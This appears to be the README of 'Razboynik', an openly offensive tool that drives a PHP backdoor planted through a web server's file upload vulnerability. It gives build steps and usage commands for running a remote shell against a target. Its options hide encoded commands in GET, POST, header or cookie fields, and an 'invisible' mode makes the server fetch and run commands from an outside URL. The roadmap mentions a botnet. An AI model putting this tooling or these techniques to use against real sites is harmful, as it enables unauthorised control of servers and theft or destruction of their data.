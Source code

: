 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `urfave/cli` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build`

(Makefile on the way)

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run -u http://{website}/uploads/script.php`
or (shortcut)
- `./razboynik r -u http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik r -u ... -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik r -u ... -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

OPTIONS: 
    - `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
    - `-m, --method`: (string) Method to use. Ex: `-m POST` (default: "GET")
    - `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
    - `-s, --shellmethod`: (int) Shellmethod to use. Ex: `-s 0` (default: 0) [0 => system(), 1 => shell_exec()]
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: "FromRussiaWithLove<3")
    - `-r, --raw`: (bool) If set, send the request without base64 encoding
    - `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
    - `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: "FromRussiaWithLove<3")

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to `'echo 1;'` in body, then I can do : 
    - `-u ... -r http://website/cmd.txt`

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
    - `-r, --referer`: (string) Url that the server will call to get the cmd to execute. Ex: `-r http://website.com/cmd-i-want-to-execute.txt`

###encode / decode
Encode or decode string.

Ex: encode hello => aGVsbG8=
    decode aGVsbG8= => hello

##Roadmap
###1.5.0
- Raw request
- Better error in razboy (core)
- Add more information when run fail
- Add cookie method
- Implement optional key protection
- Add base64 encoding and decoding to root
- Add invisible method

###1.6.0
- Add web server (FurezApi legacy)
- Add `./bin` folder with binaries
- More documentation
- Add asciinema video (in progress)
- Create a botnet ? Handle multiple server at the same time
- Config file
- Proxied tunnel
- Crypto
